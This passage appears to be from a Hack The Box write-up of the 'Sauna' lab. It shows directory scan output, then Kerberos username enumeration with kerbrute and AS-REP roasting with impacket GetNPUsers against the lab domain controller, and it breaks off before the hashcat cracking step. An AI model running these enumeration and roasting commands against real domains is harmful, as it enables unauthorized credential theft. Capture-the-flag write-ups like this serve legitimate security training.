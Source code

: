 ```console
/Index.html (Status: 200)
/about.html (Status: 200)
/blog.html (Status: 200)
/contact.html (Status: 200)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/single.html (Status: 200)
===============================================================
2020/06/14 13:20:38 Finished
===============================================================
```
Seem like there are nothing more that what I already vissible on the website. 


I tried to user smbclient connect to smb file share with anonymous user (no username + password). No luck


That gave me a finall choice, brutefoce user using **impacket** called, ```GetNPUsers```. using namelist ```/usr/share/SecLists/Usernames/Names/names.txt```
```console
kali@kali:~/impacket/examples$ python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile /usr/share/SecLists/Usernames/Names/names.txt -format hashcat -outputfile /home/kali/HTB/sauna.txt -dc-ip 10.10.10.175 
```

still no luck. At this poin, I know I missed something. I when back to website and I remember that there is a page that contain employer name. 


I created a cuttom namelist for each user with different combanition of username such as, Name Lastname, Name.Lastname, N+Lastname, etc.


This time I use ```kerbrute``` to crack it instead. [Link](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)
```console
kali@kali:~/HTB/sauna$ /home/kali/Downloads/kerbrute_linux_amd64 userenum user.txt -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/14/20 - Ronnie Flathers @ropnop

2020/06/14 14:49:28 >  Using KDC(s):
2020/06/14 14:49:28 >   10.10.10.175:88

2020/06/14 14:49:28 >  [+] VALID USERNAME:       XXXXX@EGOTISTICAL-BANK.LOCAL
2020/06/14 14:49:28 >  Done! Tested 17 usernames (1 valid) in 0.084 seconds
```
Bingo I found the username. Now perform kerberos roasting using ```GetNPUsers.py```. tan
```console
kali@kali:~/impacket/examples$ python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/XXXX -dc-ip sauna.htb
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
[*] Cannot authenticate fsmith, getting its TGT
$krb5asrep$23$user@EGOTISTICAL-BANK.LOCAL:HASHXXX
```
put the hash in a file and use ```hashcat``` to crack it
```console
```